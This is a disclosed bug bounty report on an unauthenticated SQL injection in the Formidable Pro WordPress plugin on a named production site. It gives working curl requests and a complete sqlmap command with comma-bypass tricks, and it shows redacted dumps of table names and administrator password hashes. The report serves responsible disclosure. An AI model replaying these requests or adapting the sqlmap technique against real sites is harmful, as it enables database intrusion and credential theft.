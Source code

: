 # www.drivegrab.com SQL injection

## Report Details
- **Report ID**: 273946
- **URL**: https://hackerone.com/reports/273946
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-10-03T00:38:43.321Z
- **Disclosed**: 2017-11-17T06:28:15.090Z

## Reporter
- **Username**: jouko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: grab

## Vulnerability Information
**Summary:**
The website uses a WordPress plugin called Formidable Pro. I found an SQL injection in the plugin code.

**Description:**
The plugin allows the site admin to create forms to be filled by users. For this end it implements some AJAX functions, including one to preview (or actually just view) a form. The functionality is probably intended for administrators to be used in the form design phase, but for some reason it is accessible to unauthenticated users.

The preview function accepts some parameters. Some of them allows the user to specify HTML and WordPress shortcodes (special WordPress markup) to be included with the preview. One of the shortcodes implemented by the Formidable Pro plugin contains an SQL injection vulnerability.

## Browsers Verified In:
N/A

## Steps To Reproduce:
Verifying the AJAX preview function with the cURL tool:
~~~~
curl -s -i 'https://www.drivegrab.com/wp-admin/admin-ajax.php' --data 'action=frm_forms_preview'
~~~~
This request shows a preset "contact us" form (if form id is not defined, you'll get the first form in the database).

The preview AJAX request accepts some parameters. For example you can define HTML to be shown after the form:
~~~~
curl -s -i 'https://www.drivegrab.com/wp-admin/admin-ajax.php' --data 'action=frm_forms_preview&after_html=hello world'
~~~~
You see that "hello world" appears on the page after the "Contact us" form.

The HTML may contain WordPress shortcodes which are special markup in square brackets. There are shortcodes implemented by the WordPress core, and shortcodes implemented by plugins. Any of these can be included in the form preview.

The Formidable plugin implements several shortcodes. One of them is [display-frm-data] which displays data that people have entered in a form. It accepts a few parameters, e.g. the form id:

~~~~
curl -s -i 'https://www.drivegrab.com/wp-admin/admin-ajax.php' --data 'action=frm_forms_preview&after_html=XXX[display-frm-data id=835]YYY'
~~~~

In the resulting HTML you see some form entries between "XXX" and "YYY".

The [display-frm-data] shortcode also accepts parameters "order_by" and "order" for sorting the entries. The "order_by" parameter can contain a field ID or list of them. The "order" parameter is supposed to contain "ASC" or "DESC" to indicate the sorting direction. These parameters can be used to carry out an SQL injection.

Example:
~~~~
curl -s -i 'https://www.drivegrab.com/wp-admin/admin-ajax.php' --data 'action=frm_forms_preview&after_html=XXX[display-frm-data id=835 order_by=id limit=1 order=zzz]YYY'
~~~~

Although this example gives no meaningful output, you should see in the server logs that the "zzz" went in an SQL query which produced an error message.

The shortcode parameters are processed in various ways which makes it very complicated to perform a successful SQL query and retrieve data. However it is possible.

The injected code goes in the ORDER BY clause of an intermediate query that retrieves the list of form entry ID's. Results of the manipulated query aren't directly visible. The attacker can control the order of entries appearing on the page, which is enough to communicate one bit of data from the database.

A further complication is that any comma symbols in the injected data are specially treated and affect the resulting SQL query in a way that creates errors. With careful formatting, however, the query can be salvaged.

I came up with the following sqlmap options to retrieve any data from the database:
~~~~
./sqlmap.py -u 'https://www.drivegrab.com/wp-admin/admin-ajax.php' --data 'action=frm_forms_preview&before_html=XXX[display-frm-data id=835 order_by=id limit=1 order="%2a( true=true )"]XXX' --param-del ' ' -p true --dbms mysql --technique B --string persondetailstable --eval 'true=true.replace(",",",-it.id%2b");order_by="id,"*true.count(",")+"id"'  --test-filter DUAL --tamper commalesslimit -D █████ --sql-query "SELECT ██████████ FROM █████ WHERE id=2"
~~~~
This works with the latest sqlmap. The "commalesslimit" tamper module helps avoiding comma symbols in any LIMIT clauses. The --eval parameter does some processing to repair queries that contain commas in the SELECT clause.

Specifically, for each comma appearing in the order parameter, the plugin appends ",it.id" in the query. The repair code appends "-it.id+" after each comma to neutralize the effect. In other words, an injected "SELECT a,b" query would be translated to "SELECT a,it.id b" by the shortcode logic. The repair code changes it to "SELECT a, it.id-it.id+b" which evaluates to the original injected query.

Result of the above sqlmap command:
~~~~
[03:09:30] [INFO] testing █████
[03:09:30] [INFO] confirming ██████
[03:09:30] [INFO] the back-end DBMS is ███
web application technology: █████
back-end DBMS: ███████
[03:09:30] [INFO] fetching SQL SELECT statement query output: 'SELECT ███████ FROM ████ WHERE id=2'
[03:09:30] [INFO] retrieved: 1
[03:09:43] [INFO] retrieving the length of query output
[03:09:43] [INFO] ███
[03:10:46] [INFO] retrieved: █████             
SELECT ██████ FROM ████ WHERE id=2 [1]:
[*] ██████████
~~~~

## Supporting Material/References:

As a proof of concept I retrieved some data.

Tables in the database:
~~~~
[██████████]
+---------------------------------+
| █████████      |
| █████████          |
| █████████        |
| ███████     |
| ██████████ |
| ███████         |
| ██████████      |
| ████ |
| ██████████                |
| ███                   |
| ████████ |
| █████████                 |
| █████                  |
| ███             |
| █████████                  |
| ███████ |
| ███████         |
| ██████████       |
| ████             |
| █████                  |
| ██████████ |
| ███                      |
| █████                    |
| ██████████                   |
| ██████████                      |
| ████████ |
| █████████              |
| ████                   |
| ██████                      |
| ████████                   |
| ██████                      |
+---------------------------------+
~~~~

Administrator users and their password hashes:

~~~~
█████
█████
██████
████████
███
█████
████████
~~~~

Webroot path:
~~~~
███
~~~~


## Attachments
No attachments
